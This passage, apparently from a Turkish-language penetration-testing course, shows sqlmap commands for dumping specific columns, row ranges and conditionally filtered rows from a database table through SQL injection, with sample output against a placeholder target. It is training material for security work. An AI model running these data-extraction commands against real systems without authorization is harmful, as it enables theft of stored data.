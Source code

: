 
### Tablo/Satır Numaralandırma
Çok sayıda sütun ve/veya satır içeren büyük tablolarla uğraşırken, sütunları (örneğin, yalnızca ad ve soyad sütunları) -C seçeneğiyle aşağıdaki gibi belirleyebiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

Satırları tablo içindeki sıra numaralarına göre daraltmak için, satırları --start ve --stop seçenekleriyle (örneğin, 2. girişten başlayarak 3. girişe kadar) aşağıdaki gibi belirtebiliriz:


```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```


### Koşullu Numaralandırma
Bilinen bir WHERE koşuluna (örneğin name LIKE 'f%') dayalı olarak belirli satırların alınması gerekiyorsa, --where seçeneğini aşağıdaki gibi kullanabiliriz:


```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```
